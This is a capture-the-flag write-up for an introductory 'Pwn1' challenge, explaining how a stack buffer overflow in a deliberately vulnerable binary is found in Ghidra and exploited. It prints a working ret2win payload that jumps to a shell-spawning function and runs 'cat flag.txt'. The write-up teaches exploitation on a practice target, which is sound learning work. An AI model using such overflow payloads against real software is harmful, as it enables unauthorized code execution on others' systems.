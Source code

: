 ```yaml
---
title: Pwn1
type: writeup
date: 2023-06-10
author: sunbather
tags:
  - pwn
---
```


## Description of the challenge

Welcome to the series of 3 pwn challenges!

Author: NoobMaster

## Solution

We open the binary in Ghidra and instantly notice the buffer overflow on ``fgets``. It reads 0x50 (80) bytes into a 64 bytes buffer. Given the name of the local variable ``local_48``, it means we have 0x48 bytes until the return address. So, we have 8 bytes of the return address to work with.

```c
void main(EVP_PKEY_CTX *param_1)
{
  char local_48 [64];
  
  init(param_1);
  puts("Would you like a flag?");
  fgets(local_48,0x50,stdin);
  system("cat fake_flag.txt");
  return;
}
```

Running ``checksec`` on the binary shows that it lacks a stack canary and is not a PIE. Another interesting function in Ghidra is ``win``, which calls ``system("/bin/sh")``. This is simply an introductory buffer overflow.

```c
void win(void)
{
  system("/bin/sh");
  return;
}
```

Collect the address for ``win``: ``0x0040124a``

Use the address to create the exploit:
```
$ python3 -c 'print("a" * 0x48)'
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
$ echo -ne 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x4a\x12\x40\x00\x00\x00\x00\x00' | ./pwn1
Would you like a flag?
n00bz{fake_flag}
Segmentation fault (core dumped)
```

Initially this seems like it doesn't work, but I think it's just because it doesn't properly redirect the streams. So let's add a command at the end of the output, the shell we open will receive it and execute it before closing.
```
$ echo -ne 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x4a\x12\x40\x00\x00\x00\x00\x00cat flag.txt' | ./pwn1
Would you like a flag?
n00bz{fake_flag}
n00bz{I_like_.hidden}
Segmentation fault (core dumped)
```
Success! We can see the "real" flag printed! Trust me, that's exactly what the flag was.
